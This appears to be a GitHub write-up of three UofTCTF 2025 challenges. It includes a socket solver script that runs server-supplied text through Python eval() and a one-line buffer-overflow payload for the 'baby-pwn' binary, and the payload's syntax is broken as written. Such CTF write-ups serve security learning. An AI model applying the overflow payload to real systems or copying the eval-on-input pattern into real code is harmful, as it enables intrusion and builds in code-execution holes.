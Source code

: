 # UofT CTF 2025

## ✨ Misc
### Sanity check
**Description**
> Welcome to UofTCTF 2025!
> Looking for the flag? Make sure you join the [Discord server](https://discord.gg/Un7avdkq7Z). The flag format is uoftctf{...}.

**Solve**

This is just sanity check chall, so just input the flag that was given on discord.

**Flag :**
```
uoftctf{welcome_to_uoftctf_2025!!!!!}
```

### Math test
**Description**
> Complete this simple math test to get the flag.
> `nc 34.66.235.106 5000`
> Author: White

---[Attachment file](chall.py)---

**Solve**

In this challenge, i have to solve all math questions from the server. When i check into the source code, it's endless 1000 questions with crazy numbers range💀💀. "I can't doing ts for rest of competition". So, i decided to make a solver script in python. In that script, it solve any questions from the server correctly. Just connect it with socket, and damnnn. you got the flag.

![image](https://github.com/user-attachments/assets/ef590c05-3f04-4b13-8b0b-948c589236f2)



Here is my code to solve this 1000 math questions
```python
import socket
import re

def solve_math_problem(problem):
    try:
        return eval(problem)
    except ZeroDivisionError:
        return None


def main():
    host = "34.66.235.106"
    port = 5000

    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect((host, port))

        while True:
            data = s.recv(1024).decode()
            if not data:
                break
            
            print(data)

            match = re.search(r'Question: ([-+*//\d\s]+)', data)
            if match:
                problem = match.group(1).strip()
                print(f"Solving: {problem}")
                
                answer = solve_math_problem(problem)
                if answer is not None:
                    s.sendall(f"{int(answer)}\n".encode())
                else:
                    print("Zero division error occurred.")
                    break

            # Print the flag 
            if "Congratz!" in data:
                print(data)
                break

if __name__ == "__main__":
    main()

```
**Flag :**
```
uoftctf{7h15_15_b451c_10_7357_d16u153d_45_4_m47h_7357}
```
<!--
# Web
## Scavenger Hunt
**Description**
> 
**Solve**


So, if we arrange all of the parts, we got the flag.
### Flag :
```
uoftctf{ju57_k33p_c4lm_4nd_1n5p3c7_411_7h3_4pp5_50urc3_c0d3!!}
```
-->

## 💻 Pwn
### baby-pwn
**Description**
> Here's a baby pwn challenge for you to try out. Can you get the flag?
`nc 34.162.142.123 5000`
Author: atom

**Solve**

As we see at first, this challenge provide the source code and compiled one. We can buffer overflow this chall by passing some 64 + 8 bit input
```bash
python3 -c 'print("A" * 64 + "B" * 8 + \x66\x11\x40\x00\x00\x00\x00\x00)' | ./chal
```
You can change the "**./chal**" with netcat or the original program. Once we run the payload, we'll get this flag

![image](https://github.com/user-attachments/assets/46335ee5-b84d-47c3-9901-58577c94aa72)


**Flag :**
```
uoftctf{buff3r_0v3rfl0w5_4r3_51mp13_1f_y0u_kn0w_h0w_t0_d0_1t}
```









==============================================================


Thanks for read this writeup. If u wanna support me, buy me a coffee [here](https://ko-fi.com/abiabdillah) or click button below

<!--<a href="https://ko-fi.com/abiabdillah" style="text-align: center;"><img align="center" width="150" alt="support_me_on_kofi_blue" src="https://github.com/user-attachments/assets/c0fa4650-315c-4a4a-b1e3-76131e9eb8b8" /></a>
-->

[![PayPal](https://img.shields.io/badge/PayPal-00457C?style=for-the-badge&logo=paypal&logoColor=white)](https://paypal.me/abiabdillah) [![Ko-Fi](https://img.shields.io/badge/Ko--fi-F16061?style=for-the-badge&logo=ko-fi&logoColor=white)](https://ko-fi.com/abiabdillah)
<!-- [!["Buy Me A Coffee"](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://www.ko-fi.com/abiabdillah) -->

